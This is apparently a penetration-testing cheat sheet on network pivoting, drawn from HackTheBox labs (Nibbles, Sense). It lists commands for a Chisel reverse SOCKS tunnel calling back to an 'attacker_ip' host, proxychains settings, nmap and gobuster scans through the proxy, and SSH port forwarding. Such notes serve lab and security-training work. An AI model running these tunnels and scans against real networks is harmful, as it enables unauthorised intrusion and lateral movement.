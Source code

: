 # Pivot

**Chisel :**

```
################################# Attacker Machine ###############################

./chisel server -p 8080 --reverse

#################################### Pivot Machine ################################

chisel.exe client attacker_ip:8080 R:socks

############################### Proxychains.conf #################################

socks5 127.0.0.1 1080

################################## Nmap Scan ####################################

Always better to transfer binaries and scan from the pivot

nmap.exe -sC -sV 10.10.10.10 -Pn -T5 // From Pivot machine 

proxychains nmap 10.10.10.10 -T5 -Pn -sT // From Kali Machine

################################### Gobuster ####################################

gobuster dir -u http://10.10.10.10 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -p socks5://127.0.0.1:1080
```

**Pivot via SSH key (HTB Nibbles)**

* ssh -i root.key -L9000:web\_ip:port ssh\_ip
  * Ex : `ssh -i root.key -L9000:10.10.10.75:80 10.10.10.73`

**Pivot via root password (HTB Sense)**

* `ssh -D1080 pivot_ip`
* Burp -> user options -> socks proxy -> use socks proxy
* vi /etc/proxychains.conf
* Change socks4(metasploit) to socks5(ssh)
* proxychains curl -k [https://10.10.10.60](https://10.10.10.60) \[ -k to ignore SSL]
